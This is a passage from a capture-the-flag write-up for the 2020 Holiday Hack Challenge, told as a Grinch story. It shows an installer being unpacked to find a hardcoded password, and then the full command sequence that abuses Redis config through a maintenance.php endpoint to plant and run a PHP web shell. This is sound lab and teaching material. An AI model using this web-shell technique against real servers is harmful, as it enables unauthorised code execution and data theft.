 \begin{verbatim}
$ wget https://download.holidayhackchallenge.com/2020/santa-shop/santa-shop.exe
$ file santa-shop.exe
santa-shop.exe: PE32 executable (GUI) Intel 80386, for MS Windows, Nullsoft Installer self-extracting archive
$ 7z x santa-shop.exe
<snip>
$ cd \$PLUGINSDIR/
$PLUGINSDIR $ 7z x app-64.7z
$PLUGINSDIR $ cd resources
resources $ asar e app.asar app/
resources $ cd app
app $ grep -ir "passw" ./
<snip>
.//main.js:const SANTA_PASSWORD = 'santapass';
<snip>
\end{verbatim}

Although their objective was done, Grinch was nowhere to be found.
Grinch wandered off and ended up in the kitchen.

\subsection {Stop eating Grinch}
Grinch couldn't stop eating. That candy was delicious. Cindy Lou checked in with the elves and since it was fine, it decided to take a look at the challenges.
Cindy Lou decided to help {\color{codegreen}Holly Evergreen}. Redis wasn't really her thing but taking a look wouldn't really hurt. After all, she \href{https://book.hacktricks.xyz/pentesting/6379-pentesting-redis}{read} about Redis RCEs recently. She could probably alter some exploit and get it done.
After playing with it a bit, she formulated a plan.

\begin{verbatim}
player@redis:~$ # Init recon
player@redis:~$ cat /etc/**release**
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
player@redis:~$ # HTTP is reading from /var/www/html
player@redis:~$ curl http://localhost/maintenance.php?cmd=config,set,dir,
/var/www/html/
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dir'
'/var/www/html/'

OK
player@redis:~$ curl http://localhost/maintenance.php?cmd=config,set,
dbfilename,sh.php
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dbfilename'
'sh.php'

OK
# We will create a backdoor. The user will be redis in this case.
player@redis:~$ curl 'http://localhost/maintenance.php?cmd=set,test,
<?=`$_GET[0]`?>'
Running: redis-cli --raw -a '<password censored>' 'set' 'test'
'<?=`$_GET[0]`?>'

OK
player@redis:~$ curl http://localhost/maintenance.php?cmd=save
Running: redis-cli --raw -a '<password censored>' 'save'

OK
# Test fire
player@redis:~$ curl http://localhost/sh.php?0=ls --output -
<snip>
sh.php

# Works. Move file to /tmp/. Redis will not have perms to write on our home DIR
player@redis:~$ curl http://localhost/sh.php?0=cp+index.php+/tmp/ --output -
player@primer:~$ cat /tmp/index.php
\end{verbatim}

